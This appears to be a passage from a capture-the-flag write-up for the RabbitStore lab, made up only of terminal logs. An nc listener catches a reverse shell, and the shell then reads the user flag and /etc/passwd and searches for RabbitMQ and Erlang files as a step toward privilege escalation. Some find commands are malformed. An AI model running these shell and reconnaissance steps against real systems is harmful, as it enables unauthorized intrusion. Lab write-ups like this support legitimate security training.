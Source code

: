 
```bash
:~/RabbitStore# nc -nlvp 4444
Listening on 0.0.0.0 4444
...
azrael@forge:~/chatbotServer$
```

```bash
azrael@forge:~$ ls
ls
chatbotServer
snap
user.txt
azrael@forge:~$ cat user.txt
cat user.txt
98d3a30fa86523c580144d317be0c47e
```

```bash
azrael@forge:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
rabbitmq:x:124:131:RabbitMQ messaging server,,,:/var/lib/rabbitmq:/usr/sbin/nologin
```

```bash
rabbitmq:x:124:131:RabbitMQ messaging server,,,:/var/lib/rabbitmq:/usr/sbin/nologin
azrael@forge:~$ find / -type -name rabbitmq 2>&1 | grep -v 'Permission denied'
find / -type -name rabbitmq 2>&1 | grep -v 'Permission denied'
/usr/lib/rabbitmq
/usr/lib/ocf/resource.d/rabbitmq
/usr/share/rabbitmq
/var/log/rabbitmq
/var/lib/rabbitmq
/etc/rabbitmq
```


```bash
azrael@forge:~$ cd /var/lib/rabbitmq
cd /var/lib/rabbitmq
azrael@forge:/var/lib/rabbitmq$ ls
ls
config
erl_crash.dump
mnesia
nc
schema
```

```bash
azrael@forge:/var/lib/rabbitmq$ find / -type -name *erlang* 2>&1 | grep -v 'Permission denied'
<e -name *erlang* 2>&1 | grep -v 'Permission denied'
/usr/local/bin/generate_erlang_cookie.sh
/usr/lib/rabbitmq/lib/rabbitmq_server-3.9.13/plugins/cuttlefish-3.0.1/priv/erlang_vm.schema
/usr/lib/rabbitmq/lib/rabbitmq_server-3.9.13/plugins/rabbitmq_prelaunch-3.9.13/ebin/rabbit_prelaunch_erlang_compat.beam
/usr/lib/erlang
/usr/lib/erlang/releases/24/no_dot_erlang.script
/usr/lib/erlang/releases/24/no_dot_erlang.rel
/usr/lib/erlang/releases/24/no_dot_erlang.boot
/usr/lib/erlang/bin/no_dot_erlang.boot
/usr/lib/erlang/lib/tools-3.5.2/emacs/erlang-skels.el
/usr/lib/erlang/lib/tools-3.5.2/emacs/erlang-skels-old.el
/usr/lib/erlang/lib/tools-3.5.2/emacs/erlang-test.el
/usr/lib/erlang/lib/tools-3.5.2/emacs/erlang-edoc.el
/usr/lib/erlang/lib/tools-3.5.2/emacs/erlang-start.el
```